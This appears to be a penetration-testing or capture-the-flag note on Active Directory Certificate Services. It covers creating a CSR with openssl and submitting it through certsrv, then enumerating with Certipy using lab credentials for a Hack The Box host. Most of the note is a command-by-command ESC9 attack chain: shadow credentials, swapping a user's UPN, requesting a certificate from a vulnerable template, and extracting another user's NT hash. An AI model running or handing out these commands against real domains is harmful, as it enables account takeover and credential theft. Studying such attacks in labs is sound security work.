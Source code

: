 # Creating Certificates from Certsrv.

To create a certificate first we’ll need to create a CSR (Certificate Signing Request). We can use openssl to do the job.

```bash
openssl genrsa -des3 -out amanda.key 2048 ​# create private key
openssl req -new -key amanda.key -out amanda.csr ​# create csr
```

Enter a passphrase when prompted and the same while creating the CSR. Press enter through all
the prompts.

Sign in to /certsrv -> Request a certificate -> advanced certificate request

Enter the content of the csr file in certificate request and leave the rest as it's.

# Enumerate ADCS configurations with Certipy
```bash
certipy find -u 'judith.mader@certified.htb' -p judith09 -dc-ip 10.10.11.41 -vulnerable -enabled
```

More..
https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/

# Exploiting ESC9
more.. https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#no-security-extension-esc9

From UNIX-like systems, Certipy (Python) can be used to enumerate for, and conduct, the ESC9 scenario.

In this scenario, user1 has GenericWrite against user2 and wants to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value.

First, the user2's hash is needed. It can be retrieved via a Shadow Credentials attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the userPrincipalName of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

The vulnerable certificate can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

The user2's UPN is changed back to something else.
```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during UnPac the hash. The domain must be specified since it is not present in the certificate.
```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```